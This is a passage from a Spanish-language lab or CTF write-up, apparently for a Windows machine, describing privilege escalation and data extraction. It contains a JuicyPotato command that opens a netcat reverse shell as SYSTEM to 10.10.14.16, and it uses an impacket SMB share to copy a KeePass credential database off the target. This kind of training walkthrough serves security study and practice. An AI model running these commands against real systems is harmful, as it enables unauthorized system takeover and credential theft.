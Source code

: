 ![Base de datos de KeePass](images/post_2.png)

## Escalación de privilegios

### kohsuke &rarr; nt authority\system

#### JuicyPotato

Al cargar previamente el binario de netcat y ejecutar el binario de JuicyPotato se obtuvo una reverse shell como `nt authority\system` mediante `.\jp.exe -t * -l 1337 -p cmd.exe -a " /c C:\users\kohsuke\downloads\nc.exe -e cmd.exe 10.10.14.16 1234"`.

![Obtención de reverse shell como administrator](images/post_3.png)

1. Ejecución de JuicyPotato.
2. Otención de reverse shell.

#### KeePass

Se extrajo la base de datos de KeePass haciendo uso de la utilería de [impacket](https://github.com/SecureAuthCorp/impacket), mediante `impacket-smbserver smbFolder $(pwd) -smb2support` y realizando el copiado con `cp .\CEH.kdbx \\10.10.14.16\smbFolder`.
